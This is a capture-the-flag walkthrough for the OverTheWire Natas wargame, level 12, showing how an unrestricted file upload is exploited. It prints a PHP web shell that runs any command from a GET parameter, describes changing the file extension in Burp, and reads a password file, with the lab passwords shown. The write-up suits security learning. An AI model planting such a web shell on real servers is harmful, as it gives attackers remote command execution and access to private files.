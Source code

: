 # Natas Level 12 → Level 13
<pre><h3><b>Level 12
Username : natas12
Password : EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
URL      : http://natas12.natas.labs.overthewire.org</b></h3></pre>
### Solution

To solve this level, we first log into the natas12 application using the credentials provided above.

As we can see, the application allows a user to upload JPEG files to the server with a maximum size of 1KB. I uploaded the following image to the server and the server responds back with the location of the file.

![Natas12-1](https://securitytimes.files.wordpress.com/2017/06/orange-sun-small-min.jpg?w=663)

Upon inspection of the source code and checking Burp logs, we can see that the application changes the filename to some random characters and sends it in a POST request to the server to upload the file.

![Natas12-2](https://securitytimes.files.wordpress.com/2017/06/6-26-2017-3-28-53-pm.png?w=663)

The file is uploaded at a random path using the function **makeRandomPath($dir, $ext)**. The application does not perform any checks on the filetype of the file and merely stores it in a random directory. Therefore, it seems like the application is vulnerable to '**Unrestricted File Upload**'. Let’s create a new php file and inject some code into it.

`<?php
$output = shell_exec('ls -lart');
echo "<pre>$output</pre>";
?>`

The application changes the extension of the file to a jpg. To bypass this, we can intercept the request in Burp and change the filename to php. This would keep the extension intact while the file is uploaded on the server.

![Natas12-3](https://securitytimes.files.wordpress.com/2017/06/6-26-2017-3-53-03-pm.png?w=663)

After uploading, we can see that the application responds with a list of files and folder found in the upload folder as intended.

![Natas12-4](https://securitytimes.files.wordpress.com/2017/06/6-26-2017-3-50-06-pm.png?w=663)

Let’s modify the shellcode to take input from the user. We can then ask the file to print content of **/etc/natas_webpass/natas13**.

`<?php
$output = shell_exec($_GET["cmd"]);
echo "<pre>$output</pre>";
?>`

The above shellcode would take a command from the GET variable cmd and print the output back to us. Let’s run the following command:
`http://natas12.natas.labs.overthewire.org/upload/pgfs4n9g3p.php?cmd=cat%20/etc/natas_webpass/natas13`, replace pgfs4n9g3p.php with the randomized filename generated by the application and Voila! the application responds with the password for the next level.

<pre><h3><b>Level 13
Username : natas13
Password : jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
URL      : http://natas13.natas.labs.overthewire.org</b></h3></pre>
